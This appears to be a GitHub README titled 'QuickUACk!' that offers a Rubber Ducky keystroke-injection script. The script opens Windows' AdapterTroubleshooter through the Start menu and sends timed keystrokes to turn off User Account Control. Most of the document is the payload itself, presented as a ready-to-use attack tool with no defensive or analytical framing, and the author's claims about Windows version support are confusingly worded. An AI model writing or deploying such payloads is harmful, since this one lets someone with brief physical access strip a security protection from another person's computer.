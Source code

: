 # QuickUACk!
Some of my antiUAC Scripts for Rubbber Ducky

Really fast solutions to disable UAC (User Account Control) 
</BR>
it works on all windows version 32 and 64 bits with uac (Vista or Earlier) 
</BR>
and are valid for all languages (Latin, of course).
</BR>

The scripts were created with the Italian keyboard, 
</BR>
so I do not exclude that in some cases they require minor adjustments


![alt text](https://media1.giphy.com/media/aQrYT4WVN55aU/giphy.gif)


</BR>

QuickUACk Ver. 1.0

DELAY 2000
CTRL ESC
DELAY 200
REM start C:\Windows\System32\AdapterTroubleshooter.exe
REM work on all windows version 32 and 64 bit
REM no reboot is required for disabling
STRING AdapterTroubleshooter
DELAY 200
ENTER
DELAY 200
TAB
DELAY 200
ENTER
DELAY 200
DOWNARROW
DOWNARROW
DOWNARROW
DOWNARROW
DELAY 200
TAB
DELAY 200
ENTER
DELAY 200
LEFTARROW
DELAY 200
ENTER

-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-



